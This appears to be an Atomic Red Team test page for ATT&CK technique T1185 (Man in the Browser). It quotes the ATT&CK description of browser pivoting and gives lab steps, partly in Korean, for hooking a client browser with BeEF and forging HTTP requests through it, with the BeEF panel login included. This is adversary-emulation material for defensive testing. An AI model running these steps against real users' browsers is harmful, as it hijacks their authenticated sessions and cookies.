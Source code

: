 # T1185A - Man in the Browser
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1185/)
<blockquote>Adversaries can take advantage of security vulnerabilities and inherent functionality in browser software to change content, modify behavior, and intercept information as part of various man in the browser techniques. [1]

A specific example is when an adversary injects software into a browser that allows an them to inherit cookies, HTTP sessions, and SSL client certificates of a user and use the browser as a way to pivot into an authenticated intranet. [2] [3]

Browser pivoting requires the SeDebugPrivilege and a high-integrity process to execute. Browser traffic is pivoted from the adversary's browser through the user's browser by setting up an HTTP proxy which will redirect any HTTP and HTTPS traffic. This does not alter the user's traffic in any way. The proxy connection is severed as soon as the browser is closed. Whichever browser process the proxy is injected into, the adversary assumes the security context of that process. Browsers typically create a new process for each tab that is opened and permissions and certificates are separated accordingly. With these permissions, an adversary could browse to any resource on an intranet that is accessible through the browser and which the browser has sufficient permissions, such as Sharepoint or webmail. Browser pivoting also eliminates the security provided by 2-factor authentication </blockquote>

## Atomic Tests

- [Atomic Test #1 - forge http request - BeEF](#atomic-test-1---forge-http-request-BeEF)

<br/>

## Atomic Test #1 - forge http request - BeEF
forge http request - BeEF

**Supported Platforms:** Windows (Administrator privileges required)




#### Run it with these steps! 
#### 아래 순서대로 진행
공격자 서버
1. Open cmd.exe 
2. cd /home/kali/Desktop/beef/beef
3. ./beef

클라이언트
4. http://192.168.1.129:3000/demos/basic.html

공격자 서버
5. http://127.0.0.1:3000/ui/panel 접속 (beef1/beef1)
6. 접속 된 클라이언트 클릭 - 오른쪽 패널에서 proxy 클릭 - Forge Request 
GET /demos/secret_page.html HTTP/1.1
Host: 192.168.1.129:3000

또는

GET / HTTP/1.1
Host: www.naver.com
1. send
2. history에서 정상 요청 확인



<br/>
